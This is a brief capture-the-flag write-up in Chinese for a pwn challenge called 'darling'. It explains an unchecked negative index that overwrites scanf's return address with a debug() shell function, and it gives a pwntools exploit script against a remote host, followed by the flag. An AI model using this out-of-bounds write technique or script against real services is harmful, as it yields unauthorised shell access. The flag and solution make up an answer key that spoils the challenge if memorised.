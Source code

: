 ## darling
### solution
首先分析source code，有個`debug()`可以直接執行shell，`main`裏面index部份沒有檢查可能為負數
```c
    scanf("%d", &idx);
    if(idx > 2){
      printf("Error: index error\n");
      continue;
    }

```
因此可以使`index`為-5令`scanf("%lld", &pair[idx]);
`覆蓋到`scanf`本身的return address，寫成`debug`即可。
### script
```python
#!/usr/bin/env python3
from pwn import *
context(arch="amd64")

r = remote("104.199.235.135", 2112)

b = ELF("darling")
r.sendline("-5")
r.sendline(str(b.symbols[b'debug']))

r.interactive()
```
### flag
```
AIS3{r3w3mpeR_t0_CH3cK_b0tH_uPb3r_b0nud_&_10w3r_bounp}
```
